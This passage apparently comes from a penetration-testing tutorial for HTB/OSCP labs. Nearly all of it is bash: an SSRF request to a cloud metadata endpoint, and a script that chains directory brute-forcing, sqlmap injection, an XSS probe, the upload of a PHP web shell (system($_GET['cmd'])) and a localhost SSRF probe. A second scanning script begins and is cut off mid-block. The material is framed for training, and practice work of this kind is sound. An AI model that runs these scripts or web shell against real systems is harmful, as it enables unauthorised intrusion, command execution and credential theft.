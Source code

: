 ```bash
# Comprehensive SSRF testing (covered in detail above)
curl -X POST -d "url=http://169.254.169.254/latest/meta-data/" http://target.com/fetch.php
```

## Web Application Testing Automation and Scripting

### **Custom Testing Scripts for HTB/OSCP**

```bash
# Comprehensive web application testing script
cat > web_test.sh << 'EOF'
#!/bin/bash

target=$1
if [ -z "$target" ]; then
    echo "Usage: $0 <target_url>"
    exit 1
fi

echo "[+] Starting comprehensive web application testing for $target"

# Technology identification
echo "[+] Identifying technologies..."
whatweb "$target"

# Directory enumeration
echo "[+] Directory enumeration..."
gobuster dir -u "$target" -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak -o gobuster_results.txt

# SQL injection testing
echo "[+] SQL injection testing..."
sqlmap -u "$target" --batch --level=3 --risk=2 -o sqlmap_results/

# XSS testing
echo "[+] XSS testing..."
curl "$target/search.php?q=<script>alert('XSS')</script>" | grep -i "script\|alert"

# File upload testing (if upload form exists)
echo "[+] File upload testing..."
echo "<?php system(\$_GET['cmd']); ?>" > test_shell.php
curl -X POST -F "file=@test_shell.php" "$target/upload.php"

# SSRF testing
echo "[+] SSRF testing..."
curl -X POST -d "url=http://127.0.0.1:22" "$target/fetch.php" | grep -i "ssh\|denied\|refused"

echo "[+] Testing completed. Check individual result files for details."
EOF
chmod +x web_test.sh

# Automated vulnerability scanner integration
cat > full_web_scan.sh << 'EOF'
#!/bin/bash

target=$1
output_dir="scan_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$output_dir"

echo "[+] Comprehensive web application scan starting..."

# Nikto scan
nikto -h "$target" -output "$output_dir/nikto.txt"
```